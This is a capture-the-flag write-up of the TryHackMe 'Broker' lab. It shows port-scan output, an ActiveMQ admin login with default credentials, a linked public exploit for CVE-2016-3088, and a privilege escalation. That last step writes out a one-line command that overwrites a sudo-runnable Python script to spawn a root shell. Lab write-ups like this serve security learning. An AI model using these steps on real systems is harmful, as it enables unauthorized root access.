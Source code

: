 ------------------

### CTF: Tryhackme
### Lab: Broker

------------------

![image](https://github.com/user-attachments/assets/1d14550f-bff8-4d3f-af10-5257b0cb733d)

-----------------

### Reconnaissance

- Rustscan's output

      ❯ rustscan -a 10.10.15.66 -- -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      🌍HACK THE PLANET🌍
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 10.10.15.66:22
      Open 10.10.15.66:1883
      Open 10.10.15.66:8161
      Open 10.10.15.66:33809
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
      
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-20 15:48 EDT
      NSE: Loaded 156 scripts for scanning.
      NSE: Script Pre-scanning.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 15:48
      Completed NSE at 15:48, 0.00s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 15:48
      Completed NSE at 15:48, 0.00s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 15:48
      Completed NSE at 15:48, 0.00s elapsed
      Initiating Ping Scan at 15:48
      Scanning 10.10.15.66 [2 ports]
      Completed Ping Scan at 15:48, 0.17s elapsed (1 total hosts)
      Initiating Parallel DNS resolution of 1 host. at 15:48
      Completed Parallel DNS resolution of 1 host. at 15:48, 0.01s elapsed
      DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 15:48
      Scanning 10.10.15.66 [4 ports]
      Discovered open port 22/tcp on 10.10.15.66
      Discovered open port 8161/tcp on 10.10.15.66
      Discovered open port 1883/tcp on 10.10.15.66
      Discovered open port 33809/tcp on 10.10.15.66
      Completed Connect Scan at 15:48, 0.17s elapsed (4 total ports)
      Initiating Service scan at 15:48
      Scanning 4 services on 10.10.15.66
      Completed Service scan at 15:49, 105.92s elapsed (4 services on 1 host)
      NSE: Script scanning 10.10.15.66.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 15:49
      Completed NSE at 15:50, 20.76s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 15:50
      Completed NSE at 15:50, 0.65s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 15:50
      Completed NSE at 15:50, 0.01s elapsed
      Nmap scan report for 10.10.15.66
      Host is up, received conn-refused (0.17s latency).
      Scanned at 2024-08-20 15:48:09 EDT for 128s
      
      PORT      STATE SERVICE    REASON  VERSION
      22/tcp    open  ssh        syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 4c:75:a0:7b:43:87:70:4f:70:16:d2:3c:c4:c5:a4:e9 (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC0E0J6enJ0afxy700qSiIX5MtF1OnZao36BxMDHd4z3X/fbRQc3WOsCzY9KsTw7RltG4bSBJGja3ppRbiLTowv+2aunR3nKPaR/Rea1NFCHPxonnYutUyqPsJIRnm+oV+hqd/rvn/BgLpdNo2bpWG1PG3gNVwmbuUqybL9XF3KoZz8gj6zZPJ+RV8yrM17R2bd1J7YgTMJBKSuKyzVQZJQHJMhdBLBOfVmF3PgajXe2Dm10xbL2rQ3Zsbbuk6hhc4Ypq1LYeZ1PA0aNuHoMzhjXlYQ3XElD5Rzr6rBo5LJr2VD2Y3mo86wyM6OZBb+B88Law3RJ4fwtjVgEoa2KX0F
      |   256 f4:62:b2:ad:f8:62:a0:91:2f:0a:0e:29:1a:db:70:e4 (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHyqJ0DAEyEKxeir3lNhPLTZNtDo/CfpLAKWpiSxZUd8NJIrcsNod31Tl+KSwMvNjNvW2ilD1YYxnO2A3FDApqg=
      |   256 92:d2:87:7b:98:12:45:93:52:03:5e:9e:c7:18:71:d5 (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINqDlHwUjvqNDfhowAQHQMu7A/HVUijCXkxdkgpF/pSe
      1883/tcp  open  mqtt?      syn-ack
      |_mqtt-subscribe: The script encountered an error: ssl failed
      8161/tcp  open  http       syn-ack Jetty 7.6.9.v20130131
      |_http-server-header: Jetty(7.6.9.v20130131)
      | http-methods: 
      |_  Supported Methods: GET HEAD
      |_http-title: Apache ActiveMQ
      33809/tcp open  tcpwrapped syn-ack
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

- FFUF's output

![image](https://github.com/user-attachments/assets/6230e8fb-9026-4866-968a-620ec0b5fbd8)

- I checked the admin page on port `8161` and discovered that I can use defualt credentials `admin:admin` to log in.

![image](https://github.com/user-attachments/assets/23dd6a14-3c47-4517-9418-fd4935315100)

- I discovered an exploit for the activemq version `5.9.0` on [github](https://github.com/cyberaguiar/CVE-2016-3088)

  ![image](https://github.com/user-attachments/assets/5c1385f9-af38-448c-b16c-90c3e2ae25d4)

- Shell Access

  ![image](https://github.com/user-attachments/assets/8c4efbe6-92e8-41f2-b321-0eb236265017)

---------------------

### Privesc with sudoers rule

- `sudo -l` reveals that we can run a script as root with no password

      activemq@activemq:/opt/apache-activemq-5.9.0$ sudo -l
      Matching Defaults entries for activemq on activemq:
          env_reset, mail_badpass,
          secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
      
      User activemq may run the following commands on activemq:
          (root) NOPASSWD: /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py
      activemq@activemq:/opt/apache-activemq-5.9.0$

- The `subscribe.py` is owned by user `activemq`.We can simply add this line of code to set the current user's `uid` and `gid` to root
and spawn and a root bash shell.

      echo "import os;os.setuid(0);os.setgid(0);os.system('bash -p')" > subscribe.py

- Running it

![image](https://github.com/user-attachments/assets/9b594506-0a97-4ae3-b867-93b999ba5b22)

- Root access

![image](https://github.com/user-attachments/assets/df381bee-f110-4923-88ab-add129c979a2)


-----------------

### REFERENCES:

- [Activemq 5.9.0's exploit](https://github.com/cyberaguiar/CVE-2016-3088)

------------------

### THANKS FOR READING!!!!


  

  
